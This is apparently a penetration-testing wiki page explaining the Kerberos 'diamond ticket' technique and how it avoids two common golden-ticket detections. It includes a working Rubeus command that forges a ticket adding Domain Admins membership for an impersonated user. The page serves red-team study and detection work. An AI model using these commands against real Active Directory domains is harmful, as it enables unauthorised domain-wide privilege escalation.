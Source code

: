 # Diamond Ticket


## Diamond Ticket

**Like a golden ticket**, a diamond ticket is a TGT which can be used to **access any service as any user**. A golden ticket is forged completely offline, encrypted with the krbtgt hash of that domain, and then passed into a logon session for use. Because domain controllers don't track TGTs it (or they) have legitimately issued, they will happily accept TGTs that are encrypted with its own krbtgt hash.

There are two common techniques to detect the use of golden tickets:

- Look for TGS-REQs that have no corresponding AS-REQ.
- Look for TGTs that have silly values, such as Mimikatz's default 10-year lifetime.

A **diamond ticket** is made by **modifying the fields of a legitimate TGT that was issued by a DC**. This is achieved by **requesting** a **TGT**, **decrypting** it with the domain's krbtgt hash, **modifying** the desired fields of the ticket, then **re-encrypting it**. This **overcomes the two aforementioned shortcomings** of a golden ticket because:

- TGS-REQs will have a preceding AS-REQ.
- The TGT was issued by a DC which means it will have all the correct details from the domain's Kerberos policy. Even though these can be accurately forged in a golden ticket, it's more complex and open to mistakes.

```bash
# Get user RID
powershell Get-DomainUser -Identity <username> -Properties objectsid

.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512

# /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
# /ticketuser is the username of the principal to impersonate.
# /ticketuserid is the domain RID of that principal.
# /groups are the desired group RIDs (512 being Domain Admins).
# /krbkey is the krbtgt AES256 hash.
```
```



